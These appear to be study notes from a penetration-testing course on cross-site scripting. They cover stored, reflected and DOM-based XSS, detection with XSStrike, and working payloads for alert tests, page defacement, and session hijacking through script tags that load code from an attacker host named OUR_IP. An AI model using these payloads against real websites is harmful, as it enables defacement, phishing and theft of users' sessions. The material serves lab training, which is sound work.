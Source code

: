 - XSS vulnerabilities take advantage of a flaw in user input sanitization to "write" JavaScript code to the page and execute it on the client side, leading to several types of attacks.
- Types of XSS
    - Stored (Persistent) - user input is stored in back-end
    - Reflected (non-persistent xss)  - processed in the backend
    - DOM-based XSS  - not processed
- Stored XSS
    - Test payload `<script>alert(window.origin)</script>`
    - XSS payload is <plaintext>  which will stop rendering the HTML code that comes after it and display it as plaintext
    - Tip: Many modern web applications utilize cross-domain IFrames to handle user input, so that even if the web form is vulnerable to XSS, it would not be a vulnerability on the main web application. This is why we are showing the value of window.origin in the alert box, instead of a static value like 1. In this case, the alert box would reveal the URL it is being executed on, and will confirm which form is the vulnerable one, in case an IFrame was being used.
    - Another easy-to-spot payload is <script>print()</script> that will pop up the browser print dialog
- Reflected XSS
    - Unlike Persistent XSS, Non-Persistent XSS vulnerabilities are temporary and are not persistent through page refreshes. Hence, our attacks only affect the targeted user and will not affect other users who visit the page.
    - Reflected XSS vulnerabilities occur when our input reaches the back-end server and gets returned to us without being filtered or sanitized.
- DOM XSS
    - DOM XSS occurs when JavaScript is used to change the page source through the Document Object Model (DOM).
    - The Source is the JavaScript object that takes the user input, and it can be any input parameter like a URL parameter or an input field, as we saw above.
    - Some of the commonly used JavaScript functions to write to DOM objects are:
        - document.write()
        - DOM.innerHTML
        - DOM.outerHTML
    - Furthermore, some of the jQuery library functions that write to DOM objects are:
        - add()
        - after()
        - append()
    - If we try the XSS payload we have been using previously, we will see that it will not execute. This is because the innerHTML function does not allow the use of the <script> tags within it as a security feature
    - `<img src="" onerror=alert(window.origin)>`
- XSS discovery
    - Automated Discovery
        - tools that can assist us in XSS discovery are XSS Strike, Brute XSS, and XSSer
        
        ```php
        [!bash!]$ git clone https://github.com/s0md3v/XSStrike.git
        [!bash!]$ cd XSStrike
        [!bash!]$ pip install -r requirements.txt
        [!bash!]$ python xsstrike.py
        ```
        
        - `python [xsstrike.py](http://xsstrike.py/) -u "http://SERVER_IP:PORT/index.php?task=test"`
    - Manual
        - on PayloadAllTheThings or the one in PayloadBox
        - Note: XSS can be injected into any input in the HTML page, which is not exclusive to HTML input fields, but may also be in HTTP headers like the Cookie or User-Agent (i.e., when their values are displayed on the page).
    - Code Review
- Defacing
    - bg = `<script>document.body.style.background = "#141d2b"</script>`
    - img = `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>`
    - title = `<script>document.title = 'HackTheBox Academy'</script>`
    - Page text = `document.getElementById("todo").innerHTML = "New Text"`
        - Jquery `$("#todo").html('New Text');`
        - `document.getElementsByTagName('body')[0].innerHTML = "New Text"`
- Phishing
    - A common form of XSS phishing attacks is through injecting fake login forms that send the login details to the attacker's server
- Session Hijacking
    - Loading a remote script - `<script src="http://OUR_IP/script.js"></script>`
    - So, we can use this to execute a remote JavaScript file that is served on our VM. We can change the requested script name from script.js to the name of the field we are injecting in, such that when we get the request in our VM, we can identify the vulnerable input field that executed the script, as follows:
    - `<script src="http://OUR_IP/username"></script>`